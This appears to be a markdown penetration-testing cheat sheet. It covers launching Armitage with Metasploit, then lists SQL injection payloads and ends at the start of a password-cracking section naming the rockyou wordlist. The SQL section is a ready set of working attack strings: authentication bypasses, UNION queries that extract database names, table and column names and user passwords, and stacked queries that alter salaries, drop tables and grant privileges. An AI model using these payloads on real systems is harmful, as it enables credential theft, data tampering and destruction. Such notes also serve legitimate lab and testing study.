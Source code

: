 
#### [Armitage](https://www.kali.org/tools/armitage/)
GUI that supports nmap and metasploit framework functionality.
Must first be installed with `sudo apt install armitage`
```
> /etc/init.d/postgresql start
> sudo msfdb init
> armitage
```


#### SQL Injection

**Enumerate login details for all users**
`'OR '1'='1`
`true`
`0 OR true`
`0' OR '1'='1`

**Retrieve database version, user account name, or database name**
`'OR 1=9 union select null, version() #`
`'OR 1=9 union select null, user() #`
`'OR 1=9 union select null, database() #
`
**Retrieve database table names**
`'OR 1=9 union select null, table_name from information_schema.tables #`

**Retrieve the columns names for a table in the databse**
`OR 1=9 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name='users' #`

**Retrieve user passwords from the 'users' table**
`'OR 1=9 union select null, concat(user,0x0a,password) from users #`

**Update table**
`'; UPDATE <table> SET <column> = <value> WHERE <row> = <value> --`
e.g.
`'; UPDATE employees SET salary = 1234567 WHERE last_name = 'Smith' --`

**Drop table**
`'; DROP TABLE <table> --`
e.g.
`'; DROP TABLE access_log --`

**Grant privileges**
`'; GRANT all ON <table> TO <user> --`


### Password cracking

#### Wordlists
A comprehensive wordlist is essential, regardless of which password cracking tool you use. Some popular choices include:
* `/usr/share/wordlists/rockyou.txt`


